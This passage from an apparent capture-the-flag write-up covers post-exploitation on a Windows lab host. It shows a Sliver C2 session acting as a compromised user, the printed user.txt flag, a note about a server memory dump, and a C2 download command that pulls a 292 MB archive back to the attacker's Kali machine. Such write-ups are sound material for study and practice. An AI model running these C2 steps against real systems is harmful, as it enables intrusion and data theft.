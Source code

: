 ```c
sliver (ADVERSE_JUICE) > whoami

Logon ID: FREELANCER\mikasaAckerman
[*] Current Token ID: FREELANCER\mikasaAckerman
```

## user.txt

With our new privileges we finally got the `user.txt`.

```c
PS C:\Users\mikasaAckerman\Desktop> type user.txt
type user.txt
9711de35120d25fff8c5002371ebc032
```

## Pivoting

Luckily on the `Desktop` a `7-zip archive` called `MEMORY.7z` resided right next to the `user.txt` and a `note` for `Mikasa`.

```c
PS C:\Users\mikasaAckerman\Desktop> dir
dir

    Directory: C:\Users\mikasaAckerman\Desktop

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                            
-a----       10/28/2023   6:23 PM           1468 mail.txt
-a----        10/4/2023   1:47 PM      292692678 MEMORY.7z                       
-ar---         6/1/2024   8:20 PM             34 user.txt
```

```c
PS C:\Users\mikasaAckerman\Desktop> type mail.txt
type mail.txt
Hello Mikasa,
I tried once again to work with Liza Kazanoff after seeking her help to troubleshoot the BSOD issue on the "DATACENTER-2019" computer. As you know, the problem started occurring after we installed the new update of SQL Server 2019.
I attempted the solutions you provided in your last email, but unfortunately, there was no improvement. Whenever we try to establish a remote SQL connection to the installed instance, the server's CPU starts overheating, and the RAM usage keeps increasing until the BSOD appears, forcing the server to restart.
Nevertheless, Liza has requested me to generate a full memory dump on the Datacenter and send it to you for further assistance in troubleshooting the issue.
Best regards,
```

We downloaded the `archive` for further investigation.

```c
sliver (ADVERSE_JUICE) > download C:\\Users\\mikasaAckerman\\Desktop\\MEMORY.7z

[*] Wrote 292692678 bytes (1 file successfully, 0 files unsuccessfully) to /home/kali/C:\Users\mikasaAckerman\Desktop\MEMORY.7z
```
